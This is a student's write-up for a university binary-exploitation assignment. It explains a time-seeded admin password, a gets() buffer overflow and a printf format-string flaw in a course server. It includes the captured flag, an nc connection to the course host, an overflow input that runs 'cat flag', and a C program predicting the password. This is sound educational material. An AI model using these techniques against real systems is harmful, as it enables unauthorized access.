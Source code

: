 # Writeup 8 - Binaries II

Name: Radhika Khare
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Radhika Khare

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?
One time randomly generated password using a time based seed. It doesn't limit number of attempts for the password which makes it vulnerable to possible brute forcing. Also the password is of a fixed size every time which reduces variability of the password and thus also makes it easier to brute force. Finally the biggest issue is that in memory its human readable as its in plaintext.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.
Line 68 utilizes gets() which can cause buffer overflow issues. This would cause it to read data without checking the length of bytes entered which means that the data can overflow into memory used for something else. Line 46 poses a vulnerability because the printf() could be used for string injection based on what they enter for input. There should be something like %s to control that a string is printed out.

3. What is the flag?
CMSC389R-{expl017-2-w1n}
4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.
If you generate the password the same way as in server.c and print it, it is possible to generate the password the same way which is a major vulnerability of the program. Taking the password generating code from server.c directly I would generate the password (i added loop of 5 time of doing this password generation bc time delays and finally was able to figure out how to make it work for about the 2nd of so password generated. I was originally thinking of generating a python script but for the sake of simplicity decided to just do ./a.out && nc ec2-18-222-89-163.us-east-2.compute.amazonaws.com 1337 where a.out was my executable. After finally escalating privilege I realized that using the 4th option i can exploit the buffer overflow error. I noted that the buff variable is 33 bytes/characters. The command cat flag which shows the flag is only 8 chars long. I want to add the command into that part of memory to allow the command to be used. To deal with this I had to add 25 spaces after to deal with the rest of the buffer. Then after adding it to the list of available commands I wanted to execute it making what I executed be "cat flag                         cat flag". After multiple tries I remembered that I needed 25 spaces again to fill the buffer size properly making my input "cat flag                         cat flag                         ".

my c script findpass.c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#define BUFF_SIZE 32
#define FLAG_SIZE 32
#define PASS_SIZE 16

int main(void) {
    int i, prompt_response;
    /* password for admin to provide to dump flag */
    char *password;
    /* true if user is admin */
    uint8_t admin;
    int n=5;
    /* seed random with time so that we can password */
    while (n>0){
    srand(time(0));
    admin = 0;
    password = calloc(1, PASS_SIZE+1);
    for (i = 0; i < PASS_SIZE; i++) {
        password[i] = rand() % ('z'-' ') + ' ';
    }
    password[PASS_SIZE] = 0;
    printf("%s\n", password);
    /*free(password);*/
    n=n-1;
    sleep(1);
    }
    return 0;
}



